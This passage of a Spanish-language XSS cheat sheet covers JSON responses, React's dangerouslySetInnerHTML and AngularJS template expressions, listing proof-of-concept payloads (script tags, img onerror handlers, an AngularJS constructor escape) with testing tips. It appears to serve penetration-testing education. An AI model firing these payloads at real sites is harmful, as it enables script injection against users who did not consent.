 - Usa `console.log()` para probar en DevTools si no puedes usar `alert()`.
    

---

**XSS en contenido JSON**  
Frecuente en APIs REST que devuelven estructuras JSON con datos reflejados.

```json
{"mensaje": "TU_INPUT"}
```

**Payloads posibles:**

```json
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
</script><script>alert(1)</script>
```

**Tips:**

- Observa si el JSON se inyecta posteriormente en el DOM vía JavaScript.
    
- Usa `Burp Repeater` para modificar la respuesta de la API y ver si hay renderizado directo.
    

---

**XSS en aplicaciones React (JSX)**  
React escapa automáticamente caracteres peligrosos, pero hay excepciones con `dangerouslySetInnerHTML`.

```jsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

**Payload (si hay innerHTML):**

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
```

**Tips:**

- Busca si el input se renderiza con `dangerouslySetInnerHTML`.
    
- En React, es raro que haya XSS directo a menos que el desarrollador use `eval()`, `innerHTML` o manipule el DOM.
    

---

**XSS en AngularJS (1.x)**  
AngularJS permite expresiones con doble llave (`{{ }}`) que pueden ejecutarse si están mal protegidas.

```html
{{constructor.constructor('alert(1)')()}}
{{alert(1)}}
```
